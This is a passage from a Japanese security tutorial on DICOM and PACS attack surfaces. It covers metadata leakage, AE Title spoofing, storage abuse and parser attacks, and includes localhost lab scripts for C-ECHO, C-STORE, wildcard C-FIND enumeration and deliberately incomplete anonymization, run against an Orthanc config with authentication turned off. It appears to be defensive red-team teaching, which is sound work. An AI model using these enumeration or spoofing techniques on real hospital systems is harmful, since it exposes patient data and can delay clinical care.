

# DICOMとは何か、なぜ危険なのか：PACSとDICOMサーバ攻撃から考える医療サイバーセキュリティ
## 前提

本稿は、医療機関・医療機器ベンダ・PACS運用者・セキュリティ担当者が、医療サイバーセキュリティ上のリスクを理解し、医療機関レッドチーム演習や医療機器の脆弱性診断を安全に設計するための技術解説である。

本稿の再現コードは、ローカルの検証環境・合成患者データ・許可済みのラボ環境を前提にする。実在の医療機関、PACS、医療機器、検査装置、クラウドPACS等に対して無断で実行しないこと。  
実病院ネットワーク、医療機器、PACS、本番DICOMサーバに対して実行する場合は、少なくとも以下の条件を満たす必要がある。
* 医療機関・運用ベンダ・機器ベンダの明示的な許可
* 試験対象、時間帯、停止条件、連絡経路を定義したルール・オブ・エンゲージメント
* 合成患者データまたは検証用データのみの使用
* 本番診療影響を即時停止できる監視体制
* C-STORE負荷、C-FIND件数、ストレージ使用量の上限設定

<details>
  <summary><h3>目次</h3></summary>

* [1. DOCIOM概要](#1-dicom概要)
* [2. PACS概要](#2-pacs概要)
* [3. DICOM通信の基本と主要操作](#3-dicom通信の基本と主要操作)
  * [C-ECHO](#c-echo)
  * [C-STORE](#c-store)
  * [C-FIND](#c-find)
* [4. DICOMのリスク](#4-dicomのリスク)
  * [平文通信の危険性](#平文通信の危険性)
  * [Metadata leakage](#metadata-leakage)
  * [匿名化不備](#匿名化不備)
  * [AE Title spoofing](#ae-title-spoofing)
  * [storage abuse](#storage-abuse)
  * [Malicious DICOM](#malicious-dicom)
  * [Parser attack](#parser-attack)
* [5. PoC](#5-poc)
  * [検証環境](#検証環境)
  * [検証用DICOMファイル](#検証用dicomファイル)
  * [C-ECHO](#c-echo)
  * [C-STORE](#c-store)
  * [1. メタデータ検査](#1-メタデータ検査)
  * [2. C-FINDによるmetadata leakage](#2-c-findによるmetadata-leakage)
  * [3. 匿名化不備](#3-匿名化不備)
  * [4. AE Title spoofingのPoC](#4-ae-title-spoofingのpoc)
  * [5. storage abuseのPoC](#5-storage-abuseのpoc)
  * [6. malicious DICOM / parser attack](#6-malicious-dicom--parser-attack)
* [6. 医療安全(patient safety,medical safety)への影響](#6-医療安全patient-safety-medical-safetyへの影響)
  * [Availability impact](#availability-impact)
  * [Patient safety](#patient-safety)
  * [Clinical workflow](#clinical-workflow)
* [7. 攻撃パターンと防御策](#7-攻撃パターンと防御策)
* [8. mitigation](#8-mitigation)
  * [Segmentation](#segmentation)
  * [DICOM TLS](#dicom-tls)
  * [Audit log](#audit-log)
  * [SBOM(Software Bill of Materials)](#sbomsoftware-bill-of-materials)
  * [入力検証と制限](#入力検証と制限)
  * [匿名化プロセスの強化](#匿名化プロセスの強化)
* [9. 病院レッドチーム演習で確認すべき観点とシナリオ例](#9-病院レッドチーム演習で確認すべき観点とシナリオ例)
  * [技術的観点](#技術的観点)
  * [医療安全観点](#医療安全観点)
  * [ログ·検知観点](#ログ検知観点)
  * [シナリオA:DICOMメタデータ列挙](#シナリオa-dicomメタデータ列挙)
  * [シナリオB: AE Title spoofing](#シナリオb-ae-title-spoofing)
  * [シナリオC: Storage abuse](#シナリオc-storage-abuse)
  * [シナリオD: Malicious DICOM/Parser attack](シナリオd-malicious-dicom--parser-attack)
* [10. まとめ](#10-まとめ)
* [11. Appendix](#11-appendix)
</details>

## 1. DICOM概要
DICOM(Digital Imaging and Communications in Medicine)は、医用画像と関連情報を扱うための標準規格である。  
CT、MRI、X線、超音波、内視鏡、放射線治療計画装置、PACS、読影端末、RIS、HIS、電子カルテ連携などで使われる。

DICOMは、大きく分けて以下の2つを含む。
| 領域 | 内容 |
| - | - |
| ファイル形式 | 医用画像、患者情報、検査情報、装置情報、UID、メタデータを含むファイル形式 |
| ネットワーク通信 | PACSやモダリティ間での画像送信、検索、取得、保存を行うプロトコル |

DICOM通信では、通信主体をApplication Entity(AE)と呼ぶ。各AEは`AE Title`という識別子を持つ。
| 機器 | AE Title例 |
| - | - |
| CT装置 | `CT01` |
| MRI装置 | `MRI01` |
| PACS | `PACS01` |
| 読影端末 | `VIEWER01` |

## 2. PACS概要
PACS(Picture Archiving and Communication System)は、医用画像の保存・検索・配信を担う中核システムである。

典型的な構成は以下の通り。
```
[CT / MRI / X-ray]
        |
        | DICOM C-STORE
        v
      [PACS]
        ^
        | DICOM C-FIND / C-MOVE / C-GET
        |
[読影端末 / 画像ビューア / RIS連携]
        |
        v
[放射線科医 / 臨床医]
```

PACSは医療機関の画像診断ワークフローの中心に位置し、臨床データプレーンである。  
PACSやDICOM通信に障害が発生したときの影響は以下の通り。
* CT画像が読影医に届かない
* 救急患者の画像確認が遅れる
* 手術前画像が参照できない
* 過去画像との比較ができない
* 放射線科・救急・外科・内科の連携が止まる
* 診断や治療判断が遅れる

攻撃者にとっての価値は以下の通り。
* 患者情報を含むメタデータが集約されている
* 画像データが大量に保存されている
* 検査日、検査種別、診療科、紹介医、施設名などが分かる
* 可用性低下が診療遅延に直結する
* 医療機器・読影端末・部門システムとの信頼関係がある

## 3. DICOM通信の基本と主要操作
DICOM通信では、クライアント側がPACSにAssociationを張り、対応するDICOMサービスを実行する。  
代表的なサービスは以下の通り。
| サービス | 用途 | 攻撃面 |
| - | - | - |
| C-ECHO | 疎通確認 | 存在確認、AE応答確認 |
| C-STORE | 画像送信/保存| 不正画像投入、ストレージ圧迫 |
| C-FIND | 検索 | メタデータ列挙、患者情報漏えい |
| C-MOVE | 画像転送要求 | 不正転送、内部構成把握 |
| C-GET | 画像取得 | 画像情報の取得 |

### C-ECHO
疎通確認。いわゆるDICOM pingのようなもの。

攻撃者視点では、C-ECHOが通るだけで以下について分かる。
* DICOMサーバが存在する
* AE Titleが正しい可能性がある
* Associationが確立できる
* ファイアウォールやACLで遮断されていない

### C-STORE
画像やDICOMオブジェクトをPACSへ送信したり、保存させるためのサービス。  
通常の医療ワークフローでは、CTやMRIなどのモダリティがPACSへ検査画像を送信する。

攻撃者視点では、DICOMサーバに対してC-STOREは以下の操作を成立させ得る。
* 不正なDICOMオブジェクトの投入
* 偽患者・偽検査データの登録
* ストレージ圧迫
* バックアップ容量の圧迫
* 画像ビューアやPACSパーサへの遅延型攻撃
* インデックス、サムネイル生成、画像変換処理への負荷

### C-FIND
PACS内の患者、検査、シリーズ、画像インスタンスを検索するためのサービス。
攻撃者視点では、C-FINDが適切に制御されていない場合、PACS内のメタデータが広範囲に列挙することができ、画像本体を取得しなくても、メタデータだけで多くの個人情報・診療情報が漏洩する。

C-FINDで露出し得る代表的な属性は以下の通り。
| DICOM Tag | Keyword | 内容 |
|---|---|---|
| `(0010,0010)` | `PatientName` | 患者氏名 |
| `(0010,0020)` | `PatientID` | 患者ID |
| `(0010,0030)` | `PatientBirthDate` | 生年月日 |
| `(0010,0040)` | `PatientSex` | 性別 |
| `(0008,0050)` | `AccessionNumber` | オーダ・検査識別子 |
| `(0008,0020)` | `StudyDate` | 検査日 |
| `(0008,0060)` | `Modality` | CT、MR、USなど |
| `(0008,0080)` | `InstitutionName` | 医療機関名 |
| `(0008,0090)` | `ReferringPhysicianName` | 依頼医 |
| `(0008,1030)` | `StudyDescription` | 検査内容 |
| `(0008,103E)` | `SeriesDescription` | シリーズ内容 |
| `(0018,1030)` | `ProtocolName` | 撮像プロトコル |
| `(0018,1000)` | `DeviceSerialNumber` | 装置シリアル |
| `(0008,1010)` | `StationName` | 装置名 |
| `(0020,000D)` | `StudyInstanceUID` | 検査UID |
| `(0020,000E)` | `SeriesInstanceUID` | シリーズUID |
| `(0008,0018)` | `SOPInstanceUID` | 画像インスタンスUID |

## 4. DICOMのリスク
### 平文通信の危険性
DICOMは、院内の閉域ネットワークで使われる前提が強かった。そのため、現場ではDICOM通信が平文のまま運用されていることがある。  
攻撃者が院内ネットワークの一部を観測できる場合、DICOM通信の盗聴により、患者情報や臨床ワークフローが露出する可能性がある。  
特に問題なのは、DICOMが「医療機器同士の通信だから安全」という前提で、TLSや認証なしに許可されているケースである。  
HTTP管理画面には認証があっても、DICOMポート側には認証がない、またはAE Titleベースの緩い制御しかない、という構成も珍しくない。

平文DICOMは、以下のようなリスクを持つ。
| リスク | 内容 |
| - | - |
| Confidentiality | 患者情報・画像の漏えい |
| Integrity | 改ざん検知が困難 |
| Availability | 不正通信を識別しにくい |
| Accountability | 誰が送信したかを厳密に追跡しにくい |

### Metadata leakage
DICOMの危険性は画像本体だけでなく、むしろ初期侵害後の攻撃者にとっては、C-FINDによるメタデータ列挙の方が低ノイズで有用な場合がある。

メタデータ例：
```
PatientName: YAMADA^TARO
PatientID: 12345678
PatientBirthDate: 19700101
PatientSex: M
StudyDate: 20260619
StudyDescription: Head CT
InstitutionName: Example Hospital
Manufacturer: ExampleVendor
ManufacturerModelName: CT-Example-9000
StationName: CTROOM01
ReferringPhysicianName: SUZUKI^HANAKO
```

メタデータから分かることの例:
* どの患者がいつ検査を受けたか
* がん、脳卒中、外傷、妊娠、感染症などを推測できる検査名
* 病院内の装置構成
* 部門や診療科の運用パターン
* 高価な医療機器の存在
* 検査件数、繁忙時間帯
* 患者ID体系
* 他システムとの連携キー

以上の情報は、攻撃者にとって以下の価値を持つ。
* 患者情報の取得
* 医療機関名の特定
* 装置ベンダ・機種の特定
* 部門構成の推測
* 検査種別の把握
* 高リスク患者・救急患者・特定診療科の推測
* 標的型攻撃の材料

これは、単なるプライバシー問題に留まらない。攻撃者が医療機関の業務構造を理解し、後続の恐喝、業務妨害、標的型攻撃に使える情報になる。  
特に装置名、メーカー名、ソフトウェアバージョン、Station Name等は、医療機器の脆弱性診断において重要な資産情報になる。

### 匿名化不備
DICOMの匿名化は困難である。  
`PatientName`や`PatientID`を消しただけでは不十分である。DICOMには多数のタグがあり、Private Tagや自由記述欄に個人情報が残ることがある。

匿名化不備が起きやすい箇所は以下の通り。
| 領域 | 問題 |
| - | - |
| Patient系タグ | 氏名、ID、生年月日、性別 |
| Study系タグ | 検査日、検査説明、依頼医 |
| Institution系タグ | 病院名、部門名 |
| Physician系タグ | 医師名、紹介医名 |
| Device系タグ | 装置名、Station Name |
| Private Tag | ベンダ独自情報 |
| Pixel Data | 画像内焼き込み文字 |
| Structured Report | レポート本文 |
| PDF Encapsulation | 添付文書内の個人情報 |
| UID | 再識別可能性 |

特にPrivate Tagはベンダ固有情報を含むことがあり、一般的な匿名化処理から漏れやすい。  
匿名化を行う場合は、DICOMのBasic Application Confidentiality Profile等の考え方に沿い、タグ削除、UID再生成、日付シフト、Private Tag処理、Burned-in Annotation確認、Pixel Data検査まで含める必要がある。

### AE Title spoofing
AE TitleはDICOM通信上の識別子であり、最大16文字の文字列である。  
ただし、単なるIDであって、単独では認証情報ではないことに注意が必要である。

悪い例：
```
Allowed AE Title: CT_ROOM_01
Allowed IP: 192.168.10.20
```
この設計では、攻撃者が同一ネットワーク内で送信元IPやAE Titleの制御が可能な状況にある場合、`CT_ROOM_01`と名乗るだけでPACSがAssociationを受け入れる可能性がある。

さらに悪いケースでは、AE Titleから以下の情報を容易に推測できる。
* 装置ラベル
* 設定資料
* 過去のDICOMファイル
* DICOM通信の平文キャプチャ
* PACSログ
* `StationName`
* モダリティ命名規則

対策としては、以下を組み合わせて対応づける必要がある。
* AE Title
* 送信元IP制限
* ネットワークセグメント
* DICOM TLS
* クライアント証明書
* 装置台帳
* PACS側の詳細ログ
* 不審なAssociationの検知

### storage abuse
C-STOREが広く許可されている場合、DICOMサーバはストレージ悪用の対象になる。

攻撃パターンは以下のようなものが考えられる。
* 大量のDICOMオブジェクト投入
* 巨大Pixel Data投入
* 重複SOP Instanceの大量投入
* 偽Study/Seriesの作成
* 圧縮画像の展開時に容量が膨らむデータ投入
* バックアップ対象データの水増し
* インデックスDB肥大化
* サムネイル生成や画像変換ジョブの滞留

医療現場では、ストレージ枯渇は以下のような直接的な影響が発生する。
* 新規検査画像をPACSへ送れない
* モダリティ側の送信キューが詰まる
* 読影が遅れる
* 過去画像参照が遅くなる
* 救急・手術・外来の判断が遅れる
* 再撮影や手作業搬送が発生する

### Malicious DICOM
Malicious DICOMとは、DICOMファイル自体を攻撃媒体として使う考え方である。  
仕様上はDICOMとして解釈できるが、受信側の実装にとって危険な構造を持つこともある。

| 分類 | 概要・例 | 具体的なデータの手口 / 狙われる処理 |
| - | - | - |
| Preamble悪用 | 先頭128バイトの自由領域の悪用 | ・ポリグロット攻撃(.exeなどのマルウェア実行コードを埋め込み、画像と見せかけてウイルスを実行させる) |
| 異常なメタデータ | 極端に長い文字列、不正文字、改行、制御文字 | ・巨大な文字列属性によるバッファオーバーフロー<br>・異常に深いSequence(入れ子構造)によるスタックオーバーフロー |
| 不正なVR / Value Length | 規格外の長さ、矛盾した型 | ・壊れたLength(領域確保の計算バグを誘発) |
| 異常なPixel Data | 巨大画像、破損圧縮データ | ・圧縮画像の展開爆弾(メモリ枯渇によるフリーズ) |
| Transfer Syntax悪用 | 実装依存のデコーダを狙う | ・想定外のTransfer Syntax(特定の脆弱なライブラリを強制呼び出し)<br>・JPEG/JPEG2000/RLEなど画像コーデック実装の脆弱性を狙うデータ |
| Private Tag濫用 | ベンダ固有処理のバグを誘発 | ・多数のPrivate Tag(独自実装のパースエラーを狙う) |
| Encapsulated PDF | PDFビューア側の攻撃面 | ・埋め込みPDFを開く際の脆弱性悪用 |
| Structured Report | テキスト処理・HTML変換時の注入 | ・HTML変換時のスクリプト注入(インジェクション攻撃)<br>・Viewerが表示時に処理する説明文、オーバーレイ、Presentation State |
| DICOMDIR | メディア取り込み処理への攻撃 | ・CD-RやUSBなどのメディアからの一括取り込み処理への攻撃 |
| AI・診断機能への攻撃 | 判定アルゴリズムのバグや誤認を狙う | ・敵対的攻撃(Adversarial Attack：画像に微細なノイズを仕込み、AI診断に誤診を起こさせる) |
| 通信プロトコル悪用 | ネットワーク機能(C-STORE等)の脆弱性 | ・不正なDICOMコマンドによるPACSサーバーの遠隔強制終了(DoS)やRCE |
| システム連携・機能特有 | 各種変換・出力処理の隙を狙う | ・サムネイル生成処理を狙うデータ<br>・Export処理や変換処理を狙うデータ |

DICOMは複雑なフォーマットであり、以下のような複数のコンポーネントを通過し、多数の後段処理がDICOMを再パースする。
```
DICOM receiver
  -> metadata parser
  -> database indexer
  -> image decoder
  -> thumbnail generator
  -> web viewer
  -> report system
  -> AI analysis pipeline
  -> export converter
  -> archive / backup
```
C-STOREで投入されたDICOMは、後から別のコンポーネントで処理される保存型攻撃面になり得る。加えて、parser attackの攻撃面を広げる。

### Parser attack
DICOM parser attackでは、DICOMを解釈する実装の不備を狙う。  
以下のような場所が狙い目になる。
* PACSのDICOM受信処理
* DICOMルータ
* 読影ビューア
* Webビューア
* AI解析前処理
* 画像変換サーバ
* DICOM to JPEG/PNG変換
* DICOM webゲートウェイ
* CD/DVD Export
* 匿名化ツール
* 研究用データ変換スクリプト
* Python / C++ / Java / .NET のDICOMライブラリ

脆弱性の種類としては以下が考えられる。特にC/C++実装の画像コーデックや古いDICOMライブラリでは、問題になりやすい。
| 種類 | 影響 |
| - | - |
| バッファ境界不備 | クラッシュ、任意コード実行 |
| 整数オーバーフロー | メモリ破壊、異常確保 |
| 無制限メモリ確保 | DoS |
| 無限ループ | CPU枯渇 |
| パストラバーサル | 不正ファイル書き込み |
| ログ注入 | 監査ログ汚染 |
| CSV/Excel注入 | エクスポート時の二次被害 |
| XSS | Web Viewerでの実行 |
| SSRF | 外部参照処理がある場合 |
| XML/JSON変換不備 | 連携システムへの注入 |

防御側は、DICOMを単なる「信頼済み医療データ」と見なすのではなく、外部入力として扱う必要がある。

## 5. PoC
### 検証環境
検証環境では、ローカルホストにサンプルPACSとしてOrthancを起動し、Pythonの`pynetdicom`と`pydicom`を使ってDICOM通信を再現する。

**構成**  
```
dicom-lab/
├── docker-compose.yml
├── orthanc.json
├── scripts/
│   ├── create_sample_dicom.py
│   ├── c_echo.py
│   ├── c_store.py
│   ├── c_find.py
│   ├── ae_title_spoof_lab.py
│   ├── storage_abuse_lab.py
│   ├── inspect_metadata.py
│   ├── anonymize_incomplete_demo.py
│   └── parser_demo.py
└── data/
    └── generated/
```
DICOM Port: 4242  
Web UI: 8042

**docker-compose.yaml**
```yaml docker-compose.yaml
services:
  orthanc:
    image: orthancteam/orthanc:latest
    container_name: dicom-lab-orthanc
    ports:
      - "127.0.0.1:4242:4242"
      - "127.0.0.1:8042:8042"
    volumes:
      - ./orthanc.json:/etc/orthanc/orthanc.json:ro
      - orthanc-storage:/var/lib/orthanc/db
    restart: unless-stopped

volumes:
  orthanc-storage:
```
**orthanc.json**
```json orthanc.json
{
  "Name": "DICOM-LAB-ORTHANC",
  "DicomAet": "ORTHANC",
  "DicomPort": 4242,
  "RemoteAccessAllowed": true,
  "AuthenticationEnabled": false,
  "DicomTlsEnabled": false,
  "StorageDirectory": "/var/lib/orthanc/db",
  "IndexDirectory": "/var/lib/orthanc/db",
  "DicomModalities": {},
  "LogExportedResources": true
}
```

**起動**
```bash
docker compose up -d
```
Web UIはローカルホスト限定で以下に公開される。
```
http://127.0.0.1:8042
```


DICOMポートは以下の通り。
```
127.0.0.1:4242
```

**ログ確認**  
```bash
docker logs -f dicom-lab-orthanc
```
平文DICOMの観察例。
```bash
sudo tcpdump -i lo -s 0 -A 'tcp port 4242'
```
C-ECHO時のログ
```
$ sudo tcpdump -i lo -s 0 -A 'tcp port 4242'
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
13:52:18.980867 IP localhost.39041 > localhost.4242: Flags [S], seq 3392846008, win 65495, options [mss 65495,sackOK,TS val 445335814 ecr 0,nop,wscale 9], length 0
E..<..@.@................:...........0.........
..I........	
13:52:18.980883 IP localhost.4242 > localhost.39041: Flags [S.], seq 1479725524, ack 3392846009, win 65483, options [mss 65495,sackOK,TS val 445335814 ecr 445335814,nop,wscale 9], length 0
E..<..@.@.<.............X2...:.......0.........
..I...I....	
13:52:18.980896 IP localhost.39041 > localhost.4242: Flags [.], ack 1, win 128, options [nop,nop,TS val 445335814 ecr 445335814], length 0
E..4..@.@.. .............:..X2.......(.....
..I...I.
13:52:18.983570 IP localhost.39041 > localhost.4242: Flags [P.], seq 1:288, ack 1, win 128, options [nop,nop,TS val 445335817 ecr 445335814], length 287
E..S..@.@................:..X2.......G.....
..I	..I...........ORTHANC         LABCLIENT       ....................................1.2.840.10008.3.1.1.1 ..v....0...1.2.840.10008.1.1@...1.2.840.10008.1.2@...1.2.840.10008.1.2.1@...1.2.840.10008.1.2.1.99@...1.2.840.10008.1.2.2P..>Q.....?.R.. 1.2.826.0.1.3680043.9.3811.3.0.4U...PYNETDICOM_304
13:52:18.983579 IP localhost.4242 > localhost.39041: Flags [.], ack 288, win 128, options [nop,nop,TS val 445335817 ecr 445335817], length 0
E..4	3@.@.3.............X2...:.......(.....
..I	..I	
13:52:18.988074 IP localhost.4242 > localhost.39041: Flags [P.], seq 1:193, ack 288, win 128, options [nop,nop,TS val 445335822 ecr 445335817], length 192
E...	4@.@.2.............X2...:.............
..I...I	..........ORTHANC         LABCLIENT       ....................................1.2.840.10008.3.1.1.1!.......@...1.2.840.10008.1.2.1P..:Q.....@.R...1.2.276.0.7230010.3.0.3.7.0U...OFFIS_DCMTK_370
13:52:18.988082 IP localhost.39041 > localhost.4242: Flags [.], ack 193, win 128, options [nop,nop,TS val 445335822 ecr 445335822], length 0
E..4..@.@................:..X2.......(.....
..I...I.
13:52:18.995722 IP localhost.39041 > localhost.4242: Flags [P.], seq 288:368, ack 193, win 128, options [nop,nop,TS val 445335829 ecr 445335822], length 80
E.....@.@................:..X2.......x.....
..I...I......J...F..........8...........1.2.840.10008.1.1.........0.....................
13:52:18.997784 IP localhost.4242 > localhost.39041: Flags [P.], seq 193:283, ack 368, win 128, options [nop,nop,TS val 445335831 ecr 445335829], length 90
E...	5@.@.33............X2...:.(...........
..I...I......T...P..........B...........1.2.840.10008.1.1.........0... ....................	......
13:52:19.002455 IP localhost.39041 > localhost.4242: Flags [P.], seq 368:378, ack 283, win 128, options [nop,nop,TS val 445335836 ecr 445335831], length 10
E..>..@.@................:.(X2.......2.....
..I...I...........
13:52:19.003807 IP localhost.4242 > localhost.39041: Flags [P.], seq 283:293, ack 378, win 128, options [nop,nop,TS val 445335837 ecr 445335836], length 10
E..>	6@.@.3.............X2...:.2.....2.....
..I...I...........
13:52:19.004677 IP localhost.39041 > localhost.4242: Flags [F.], seq 378, ack 293, win 128, options [nop,nop,TS val 445335838 ecr 445335837], length 0
E..4..@.@................:.2X2.......(.....
..I...I.
13:52:19.005013 IP localhost.4242 > localhost.39041: Flags [F.], seq 293, ack 379, win 128, options [nop,nop,TS val 445335838 ecr 445335838], length 0
E..4	7@.@.3.............X2...:.3.....(.....
..I...I.
13:52:19.005336 IP localhost.39041 > localhost.4242: Flags [.], ack 294, win 128, options [nop,nop,TS val 445335839 ecr 445335838], length 0
E..4..@.@................:.3X2.......(.....
..I...I.
```

**後片付け**
```bash
docker compose down -v
```

検証用に認証やDICOM TLSを無効化している。本番環境では、有効にすること。

### 検証用DICOMファイル
```bash
$ python scripts/create_sample_dicom.py
```
```python create_sample_dicom.py
from pathlib import Path
from datetime import datetime

import numpy as np
import pydicom
from pydicom.dataset import Dataset, FileDataset
from pydicom.uid import ExplicitVRLittleEndian, generate_uid, SecondaryCaptureImageStorage


OUTPUT_DIR = Path("data/generated")
OUTPUT_DIR.mkdir(parents=True, exist_ok=True)


def create_sample_dicom(output_path: Path) -> None:
    file_meta = Dataset()
    file_meta.MediaStorageSOPClassUID = SecondaryCaptureImageStorage
    file_meta.MediaStorageSOPInstanceUID = generate_uid()
    file_meta.TransferSyntaxUID = ExplicitVRLittleEndian
    file_meta.ImplementationClassUID = generate_uid()

    ds = FileDataset(
        str(output_path),
        {},
        file_meta=file_meta,
        preamble=b"\0" * 128,
    )

    now = datetime.now()

    ds.SpecificCharacterSet = "ISO_IR 100"
    ds.PatientName = "LAB^PATIENT"
    ds.PatientID = "LAB-0001"
    ds.PatientBirthDate = "19700101"
    ds.PatientSex = "O"

    ds.StudyDate = now.strftime("%Y%m%d")
    ds.StudyTime = now.strftime("%H%M%S")
    ds.AccessionNumber = "LAB-ACCESSION-0001"
    ds.Modality = "OT"
    ds.StudyDescription = "DICOM LAB SAMPLE"
    ds.SeriesDescription = "Generated sample"
    ds.InstitutionName = "DICOM Cybersecurity Lab"
    ds.ReferringPhysicianName = "LAB^DOCTOR"

    ds.StudyInstanceUID = generate_uid()
    ds.SeriesInstanceUID = generate_uid()
    ds.SOPClassUID = SecondaryCaptureImageStorage
    ds.SOPInstanceUID = file_meta.MediaStorageSOPInstanceUID

    ds.SamplesPerPixel = 1
    ds.PhotometricInterpretation = "MONOCHROME2"
    ds.Rows = 64
    ds.Columns = 64
    ds.BitsAllocated = 8
    ds.BitsStored = 8
    ds.HighBit = 7
    ds.PixelRepresentation = 0

    pixel_array = np.zeros((64, 64), dtype=np.uint8)
    pixel_array[16:48, 16:48] = 180
    ds.PixelData = pixel_array.tobytes()

    ds.save_as(output_path, write_like_original=False)


if __name__ == "__main__":
    output = OUTPUT_DIR / "sample.dcm"
    create_sample_dicom(output)
    print(f"Created: {output}")
```

### C-ECHO
`C-ECHO`はDICOMの疎通確認サービスである。DICOMサービスが存在するか、指定したAE Titleを受け付けるかを確認する入口になる。

```bash
$ python scripts/c_echo.py
```
```python c_echo.py
from pynetdicom import AE
from pynetdicom.sop_class import Verification


PACS_HOST = "127.0.0.1"
PACS_PORT = 4242
PACS_AET = "ORTHANC"
CALLING_AET = "LABCLIENT"


def main() -> None:
    ae = AE(ae_title=CALLING_AET)
    ae.add_requested_context(Verification)

    assoc = ae.associate(PACS_HOST, PACS_PORT, ae_title=PACS_AET)

    if not assoc.is_established:
        print("Association failed")
        return

    status = assoc.send_c_echo()

    if status:
        print(f"C-ECHO status: 0x{status.Status:04X}")
    else:
        print("C-ECHO failed")

    assoc.release()


if __name__ == "__main__":
    main()
```

**観察ポイント**
* `Called AE Title`が正しいと接続できる
* `Calling AE Title`は任意に変えられる
* ログに送信元AEがどう残るか確認できる

### C-STORE
`C-STORE`により、作成したDICOMをPACSへ送信する。PACSに保存されたDICOMはWeb UIから確認できる。
```bash
$ python scripts/c_store.py
```
```python c_store.py
from pathlib import Path

import pydicom
from pynetdicom import AE
from pynetdicom.sop_class import SecondaryCaptureImageStorage


PACS_HOST = "127.0.0.1"
PACS_PORT = 4242
PACS_AET = "ORTHANC"
CALLING_AET = "LABCLIENT"

DICOM_FILE = Path("data/generated/sample.dcm")


def main() -> None:
    ds = pydicom.dcmread(DICOM_FILE)

    ae = AE(ae_title=CALLING_AET)
    ae.add_requested_context(SecondaryCaptureImageStorage)

    assoc = ae.associate(PACS_HOST, PACS_PORT, ae_title=PACS_AET)

    if not assoc.is_established:
        print("Association failed")
        return

    status = assoc.send_c_store(ds)

    if status:
        print(f"C-STORE status: 0x{status.Status:04X}")
    else:
        print("C-STORE failed")

    assoc.release()


if __name__ == "__main__":
    main()
```
**観察ポイント**
* 未登録AEから保存できてしまうか
* ログにC-STOREが残るか
* Study/Seriesが作成されるか
* Web UI上で偽データが見えるか
* 大量投入を防ぐQuotaがあるか

### 1. メタデータ検査
DICOMファイルに含まれるメタデータを確認する。
```bash
$ python scripts/inspect_metadata.py data/generated/sample.dcm
```
```python inspect_metadata.py
import argparse

import pydicom


SENSITIVE_KEYWORDS = [
    "Patient",
    "Physician",
    "Institution",
    "Referring",
    "Operator",
    "Station",
    "Device",
    "Accession",
]


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument("dicom_file")
    args = parser.parse_args()

    ds = pydicom.dcmread(args.dicom_file, stop_before_pixels=True)

    for elem in ds.iterall():
        keyword = elem.keyword or ""
        name = elem.name or ""

        if any(token in keyword or token in name for token in SENSITIVE_KEYWORDS):
            print(f"{elem.tag} {keyword}: {elem.value}")


if __name__ == "__main__":
    main()
```

### 2. C-FINDによるmetadata leakage
`C-FIND`を使ってPACS内の検査情報を検索する。
```bash
python scripts/c_find.py
```
```python c_find.py
from pynetdicom import AE
from pynetdicom.sop_class import StudyRootQueryRetrieveInformationModelFind
from pydicom.dataset import Dataset


PACS_HOST = "127.0.0.1"
PACS_PORT = 4242
PACS_AET = "ORTHANC"
CALLING_AET = "LABCLIENT"


def main() -> None:
    ae = AE(ae_title=CALLING_AET)
    ae.add_requested_context(StudyRootQueryRetrieveInformationModelFind)

    assoc = ae.associate(PACS_HOST, PACS_PORT, ae_title=PACS_AET)

    if not assoc.is_established:
        print("Association failed")
        return

    query = Dataset()
    query.QueryRetrieveLevel = "STUDY"
    query.PatientName = "*"
    query.PatientID = ""
    query.StudyDate = ""
    query.StudyDescription = ""
    query.Modality = ""
    query.StudyInstanceUID = ""

    responses = assoc.send_c_find(
        query,
        StudyRootQueryRetrieveInformationModelFind,
    )

    for status, identifier in responses:
        if status is None:
            print("Connection timed out or invalid response")
            continue

        print(f"Status: 0x{status.Status:04X}")

        if identifier:
            print("---- Result ----")
            print(f"PatientName: {getattr(identifier, 'PatientName', '')}")
            print(f"PatientID: {getattr(identifier, 'PatientID', '')}")
            print(f"StudyDate: {getattr(identifier, 'StudyDate', '')}")
            print(f"Modality: {getattr(identifier, 'Modality', '')}")
            print(f"StudyDescription: {getattr(identifier, 'StudyDescription', '')}")
            print(f"StudyInstanceUID: {getattr(identifier, 'StudyInstanceUID', '')}")

    assoc.release()


if __name__ == "__main__":
    main()
```

**観察ポイント**
* `PatientName`
* `PatientID`
* `StudyDate`
* `AccessionNumber`
* `StudyDescription`
* `InstitutionName`
* `ReferringPhysicianName`
  
### 3. 匿名化不備
匿名化の不十分なメタデータを推測する。
```bash
python scripts/anonymize_incomplete_demo.py data/generated/sample.dcm data/generated/anon_incomplete.dcm
python scripts/inspect_metadata.py data/generated/anon_incomplete.dcm
```
```python anonymize_incomplete_demo.py
import argparse
from pathlib import Path

import pydicom


def incomplete_anonymize(input_path: Path, output_path: Path) -> None:
    ds = pydicom.dcmread(input_path)

    if "PatientName" in ds:
        ds.PatientName = "ANONYMIZED"

    if "PatientID" in ds:
        ds.PatientID = "ANONYMIZED"

    ds.save_as(output_path, write_like_original=False)


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument("input_file")
    parser.add_argument("output_file")
    args = parser.parse_args()

    incomplete_anonymize(
        Path(args.input_file),
        Path(args.output_file),
    )

    print(f"Saved: {args.output_file}")
    print("Warning: this is intentionally incomplete anonymization")


